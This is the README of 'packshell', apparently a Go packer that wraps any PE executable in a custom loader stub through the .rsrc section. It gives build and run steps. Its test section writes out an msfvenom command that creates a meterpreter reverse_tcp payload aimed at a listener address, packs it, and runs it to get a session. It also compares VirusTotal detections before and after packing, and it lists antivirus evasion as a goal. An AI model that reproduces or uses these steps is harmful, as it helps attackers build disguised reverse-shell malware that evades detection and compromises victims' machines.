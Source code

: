 # packshell
A tool create a new file using a custom shell and a source pe files

use PE .rsrc section

# Usage

1. download dependencies

```shell
go mod download
```

2. complie the shell.go use this command

```shell
go build -o shell.exe .\cmd\shell.go
```

3. complie the packer.go use this command

```shell
go build -o packer.exe .\cmd\packer.go
```

4. move your pe file which you want execute into this project's root directory

5. use this command to create new file which with a shell

```
.\packer <your pe file> <output file>
```

6. execute the output file



# Detail

![detail](D:\goProjects\packshell\images\detail.jpg)

# Test

## logic test

- use msfvenom create a test pe file

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f exe -o win_normal.exe
```

- msf create a listener

![msf](D:\goProjects\packshell\images\msf.png)

- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_normal.exe win_pack.exe
```

- execute new file and msf get a session

![session](D:\goProjects\packshell\images\session.png)

## anti-virus test

- unpack file in virustotal

![unpack](D:\goProjects\packshell\images\unpack.png)

- packed file in virustotal

![packed](D:\goProjects\packshell\images\packed.png)

# TODO

- [] anti anti-virus
